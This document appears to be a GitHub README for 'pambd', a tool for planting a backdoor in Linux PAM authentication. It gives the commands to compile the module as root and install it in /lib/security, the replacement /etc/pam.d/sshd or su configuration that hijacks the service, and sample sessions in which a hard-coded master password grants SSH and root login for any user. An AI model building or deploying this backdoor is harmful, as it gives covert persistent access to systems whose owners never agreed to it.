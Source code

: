pambd
=====

Introduction
------------

This trick shows you how to create a PAM module backdoor that 
allows to execute an user login with your own custom password.

If you try to make the login with the real password of the target 
user and the authentication fails, the pam_auth.so switches to the 
pambd.so and viceversa.


Generate the backdoor
---------------------

If you get the error:

```bash
pambd.c:13:31: fatal error: security/pam_appl.h: No such file or directory
```

First install the package **libpam-dev** that contains the needed headers file for compilation:

```bash
deftcode pambd $ sudo apt-get install libpam0g-dev
```

Now edit the **pambd.c** and set your master custom password:

```c
#define MYPASSWD "my_master_passwd"
```

After that, generate the pam backdoor with:
(It needs the root permissions)

```bash
deftcode pambd $ sudo sh gen.sh
```

This will generate the pam backdoor at **/lib/security/pambd.so**.


Configure the PAM service you want to hijack
--------------------------------------------

Edit the **/etc/pam.d/sshd** or other that use PAM like **/etc/pam.d/su** and then replace the content with these lines:

```bash
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so     # This must be 'sufficient'.
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pambd.so        # This is our pam backdoor.
account         sufficient      pambd.so        # --
```


Test the backdoor
-----------------

After you have created the pambd backdoor, you can test It.

```bash
deftcode pambd $ file /lib/security/pambd.so 
/lib/security/pambd.so: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped
```

Example with the **SSH** service:

```bash
deftcode pambd $ ssh eurialo@deftcode.local
eurialo@deftcode.local password: 

# eg. enter: my_master_passwd or real_user_password

Last login: Thu May 21 05:55:13 2015 from localhost
deftcode ~ $ 
```

Example with **su**:

```bash
deftcode pambd $ su -
Password: 

# eg. enter: my_master_passwd or real_user_password

deftcode ~ # 
```

